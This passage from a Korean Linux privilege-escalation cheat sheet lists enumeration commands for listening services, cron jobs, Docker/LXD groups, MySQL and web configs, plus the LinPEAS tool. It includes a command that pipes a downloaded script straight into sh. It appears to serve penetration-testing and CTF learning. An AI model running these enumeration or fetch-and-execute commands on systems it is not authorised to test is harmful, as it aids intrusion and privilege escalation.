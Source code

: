 ### 🌐 네트워크 서비스 발견시

```bash
# 내부 서비스 확인 (포트 포워딩 대상)
netstat -tulnp | grep 127.0.0.1

# 현재 연결 상태
ss -tulnp 2>/dev/null | grep LISTEN

# 방화벽 규칙 확인
iptables -L 2>/dev/null || ufw status 2>/dev/null
```

### ⏰ Cron Job 발견시

```bash
# 모든 cron 관련 파일
cat /etc/crontab
ls -la /etc/cron.d/
ls -la /var/spool/cron/crontabs/ 2>/dev/null
crontab -l 2>/dev/null

# 실행 중인 cron 프로세스
ps aux | grep cron

# cron 로그 확인
tail -f /var/log/cron* 2>/dev/null &
tail -f /var/log/syslog 2>/dev/null | grep CRON &
```

### 🔧 특정 소프트웨어 발견시

```bash
# Docker 권한 확인
groups | grep docker && docker ps 2>/dev/null

# LXD/LXC 그룹 확인
groups | grep lxd && lxc list 2>/dev/null

# MySQL/Database 접근
mysql -u root -p 2>/dev/null
find /var/lib/mysql -readable 2>/dev/null

# Web 서버 설정
find /var/www /etc/apache2 /etc/nginx -readable 2>/dev/null
```

## 🤖 자동화 도구 활용

### 🔍 LinPEAS (가장 추천)

```bash
# 다운로드 및 실행
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# 또는 wget
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh

# 결과를 파일로 저장
./linpeas.sh > linpeas_output.txt 2>&1

# 특정 모듈만 실행 (빠른 실행)
./linpeas.sh -q -o SysI,Devs,AvaSof,ProCronSrvcsTmrsSocks,Net,UsrI,SofI,IntFiles
```